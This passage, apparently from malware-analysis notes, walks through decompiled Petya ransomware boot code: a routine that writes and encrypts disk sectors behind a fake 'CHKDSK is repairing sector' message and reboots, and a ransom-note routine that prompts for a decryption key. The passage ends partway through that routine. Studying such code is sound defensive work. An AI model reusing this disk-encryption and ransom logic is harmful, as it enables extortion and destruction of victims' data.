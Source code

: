 ```c
  local_202 = 1;
  for (local_1226 = 0; local_1226 < 0x20; local_1226 = local_1226 + 1) {
    local_1222[(int)local_1226] = local_201[(int)local_1226];
    local_201[(int)local_1226] = 0;
  }
  for (local_1226 = 0; local_1226 < 0x20; local_1226 = local_1226 + 1) {
    biosExtDiskAccess_0000_8db2
              (CONCAT11((char)((uint)&local_202 >> 8),param_2),&local_202,0x36,0,1,1);
  }
  biosExtDiskAccess_0000_8db2(param_2,local_1202,0x37,0,1,0);
  FUN_0000_90b2(local_1222,local_1e1,0,local_1202,0x200);
  biosExtDiskAccess_0000_8db2(CONCAT11((char)((uint)local_1202 >> 8),param_2),local_1202,0x37,0, 1,1)
  ;
  FUN_0000_916e(param_1,local_1222,local_1e1,(char *)s_CHKDSK_is_repairing_sector_0000_98f6,1);
  push_7_scroll_up_one_line_8aa8();
  pcVar1 = (code *)swi(0x19);
  (*pcVar1)();
  return;

```


# Printing "Ransom Note"

![[Pasted image 20250225123438.png]]

It seems as though there is a decryption routine if you were to put in the "correct" purchased key. 

```c
void __cdecl16near RansomNote_and_enter_key_0000_858e(undefined2 param_1,undefined param_2)

{
  byte bVar1;
  uint3 uVar2;
  char result;
  undefined2 uVar3;
  undefined2 unaff_BP;
  undefined2 unaff_SS;
  undefined local_24e [41];
  undefined local_225 [128];
  undefined local_1a5 [343];
  undefined local_4e [75];
  char local_3;
  
  _local_3 = CONCAT21(unaff_BP,local_3);
  FUN_0000_8838();
  biosExtDiskAccess_0000_8db2(CONCAT11((char)((uint)local_24e >> 8),param_2),local_24e,0x36,0,1, 0);
  Print_String_Gray_FUN_0000_8736((char *)s_You_became_victim_of_the_PETYA_R_0000_994a);
  PrintLightGrayString_0000_87b8((undefined *)&DAT_0000_ffdc,0x50);
  Print_String_Gray_FUN_0000_8736((char *)s_The_harddisks_of_your_computer_h_0000_9978);
  Print_String_Gray_FUN_0000_8736(local_225);
  Print_String_Gray_FUN_0000_8736((char *)s_3._Enter_your_personal_decryptio_0000_9b76);
  FUN_0000_8a1c(local_1a5);
  Print_String_Gray_FUN_0000_8736((undefined *)&DAT_0000_9bae);
  FUN_0000_8ac2();
  Print_String_Gray_FUN_0000_8736((char *)s_If_you_already_purchased_your_ke_0000_9bb4);
  while( true ) {
    Print_String_Gray_FUN_0000_8736((char *)s_Key:_0000_9bf4);
    _local_3 = _local_3 & 0xffff00;
    do {
      local_4e[_local_3 & 0xff] = 0;
```